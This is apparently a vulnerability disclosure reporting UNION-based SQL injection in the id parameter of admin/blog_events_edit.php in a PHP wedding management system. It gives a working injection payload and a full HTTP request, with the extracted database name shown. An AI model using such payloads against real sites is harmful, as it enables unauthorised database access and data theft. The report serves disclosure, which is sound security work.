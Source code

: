 # WeddingManagement System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability File: \admin\blog_events_edit.php

Vulnerability location: /Wedding-Management/admin/blog_events_edit.php?id=, id

[+] Payload: id=-31%20union%20select%201,database(),3,4,5,6,7,8,9,10--+

dbname = dbwedding

```sql
GET /Wedding-Management/admin/blog_events_edit.php?id=-31%20union%20select%201,database(),3,4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167982228-bffd73cf-81af-403a-b7df-c9bd9d204ecb.png)


![image](https://user-images.githubusercontent.com/54017627/167982164-007f7cd0-b464-4870-b5f7-182b791e92bc.png)
